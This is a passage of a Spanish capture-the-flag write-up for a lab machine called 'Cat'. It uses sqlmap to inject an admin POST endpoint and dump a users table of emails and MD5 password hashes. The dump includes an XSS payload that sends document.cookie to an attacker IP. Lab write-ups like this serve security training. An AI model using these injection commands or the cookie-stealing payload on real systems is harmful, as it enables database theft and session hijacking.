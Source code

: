 Dentro de `admin` hay una lista de gatos registrados y nos da la opción de aceptarlos o rechazarlos. Vamos a interceptar con burpsuite la opción de aceptar.

![burp-accept](../../img/Cat/burp-accept.png)

Es una solicitud por `POST` con los campos `catName` y `catId`. Probablemente estará actualizando o dando de alta estos gatos en una base de datos por lo que podríamos probar una inyección sql con `sqlmap`.

Para listar las tablas:

```
sqlmap -u "http://cat.htb/accept_cat.php" --cookie 'PHPSESSID=5mqnpm2rc8q4aj5885fdrbs1vr' --data 'catName=a&catId=1' --tables --random-agent --level 5 --risk 3 --threads 10
```

Para sacar toda la tabla `users`:

```
sqlmap -u "http://cat.htb/accept_cat.php" --cookie 'PHPSESSID=5mqnpm2rc8q4aj5885fdrbs1vr' --data 'catName=a&catId=1' -T users --dump --random-agent --level 5 --risk 3 --threads 10
```

```
+---------+-------------------------------+----------------------------------+---------------------------------------------------------------------------+
| user_id | email                         | password                         | username                                                                  |
+---------+-------------------------------+----------------------------------+---------------------------------------------------------------------------+
| 1       | axel2017@gmail.com            | d1bbba3670feb9435c9841e46e60ee2f | axel                                                                      |
| 2       | rosamendoza485@gmail.com      | ac369922d560f17d6eeb8b2c7dec498c | rosa                                                                      |
| 3       | robertcervantes2000@gmail.com | 42846631708f69c00ec0c0a8aa4a92ad | robert                                                                    |
| 4       | fabiancarachure2323@gmail.com | 39e153e825c4a3d314a0dc7f7475ddbe | fabian                                                                    |
| 5       | jerrysonC343@gmail.com        | 781593e060f8d065cd7281c5ec5b4b86 | jerryson                                                                  |
| 6       | larryP5656@gmail.com          | 1b6dce240bbfbc0905a664ad199e18f8 | larry                                                                     |
| 7       | royer.royer2323@gmail.com     | c598f6b844a36fa7836fba0835f1f6   | royer                                                                     |
| 8       | peterCC456@gmail.com          | e41ccefa439fc454f7eadbf1f139ed8a | peter                                                                     |
| 9       | angel234g@gmail.com           | 24a8ec003ac2e1b3c5953a6f95f8f565 | angel                                                                     |
| 10      | jobert2020@gmail.com          | 88e4dceccd48820cf77b5cf6c08698ad | jobert                                                                    |
| 11      | test@test.com                 | 098f6bcd4621d373cade4e832627b4f6 | <img src="#" onerror="this.src='http://10.10.14.191/'+document.cookie" /> |
+---------+-------------------------------+----------------------------------+---------------------------------------------------------------------------+
```
